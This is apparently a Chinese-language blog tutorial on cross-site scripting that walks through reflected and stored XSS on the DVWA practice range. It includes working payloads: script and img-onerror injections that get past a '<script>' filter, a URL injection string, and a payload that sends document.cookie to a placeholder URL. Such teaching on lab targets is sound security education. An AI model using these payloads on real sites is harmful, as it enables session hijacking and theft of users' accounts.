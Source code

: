 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS                 # 标题 
subtitle:   xss原理分析与案例           #副标题
date:       2019-09-30              # 时间
author:     kevin-leak                      # 作者
header-img: img/post/android security/bg-2019-30.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - security
    - h5
---
```


> 永远不要相信客户端传输的数据。

几句话介绍
----------

xss 是Cross Site Scripting的缩写，跨站脚本攻击。

输入框中注入js代码，利用js代码操作浏览器数据进行攻击，分为两种情况：

- 反射式，利用邮件或者其他形式在url里面注入js代码保存到页面中，进行攻击。
- 储存式，利用类似于评论这种可以交互显示的文本，注入js，回显在页面，进行攻击。




测试环境
--------

[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 



攻击原理
--------

### 案例

dvwa low 难度的xss攻击，http://43.247.91.228:81/vulnerabilities/xss_r/?name=kk，这里是已经提交了kk

<img src="../img/post/network security/images/xss/xss_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px" />

可以猜测，他应该是你输入什么就显示什么，输入下面的语句试试

（有的浏览器可能有所防护，用internet export）

```html
kk<script type="text/javascript">alert("kk");</script>
```

<img src="../img/post/network security/images/xss/xss_low_alter.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="200px" />

可以很明确的知道，此时被攻击了，但如何获取信息给攻击者呢？

既然可以写入js脚本进行弹框，也能用js写其他的代码获取浏览器的其他信息。

造成这样的原因就是，**用户的输入直接被输入**



### 类别

其实本质都一样，可以区分的就是是一次攻击，还是长久性攻击



#### 反射型

##### 案例一

可能具有的防护是stript被过滤

dvwa medium难度等级

当输入，浏览器并没有产生xss攻击

```html
<img src="javascript:alert(1)">
```

再输入

```
<img src=1 onerror=alert(1) />
```

成功

<img src="../img/post/network security//images/xss/xss_low_freflected.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" height="100px"/>

源码

```php
<?php  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 这里进行了替换
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    echo "<pre>Hello ${name}</pre>"; 
} 
?> 
```

##### payload

可以产生的攻击就好比，发一份邮件，点击访问一个连接，进行文本写入，执行js

```http
http://localhost:8001/content.html?txt=hello';alert('x')//
```



#### 存储型

存储型的攻击，就是将攻击存储到了数据库，但其他用户进行访问的时候，产生攻击。

##### 案例

dvwa 中low等级的store选项的攻击

- 先看一下是怎样的环境，类似于评论

  <img src="../img/post/network security//images/xss/xss_low_store_0.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />

- 输入payload

  ```html
  name：pp
  message：<img src=x onerror=alert(1)>
  ```

  <img src="../img/post/network security//images/xss/xss_low_store.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"/>

  可以清楚的知道，出现了xss弹框，这里就会存在攻击

- 用其他用户登入，chrome流浪器打开，发现出现弹框

  <img src="../img/post/network security//images/xss/xss_low_store_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />



##### payload

可以通过xss攻击，获取到当前浏览器的cookie，然进行冒充，下面就是payload。

```html
<script>window.open('url'+document.cookie)</script>
```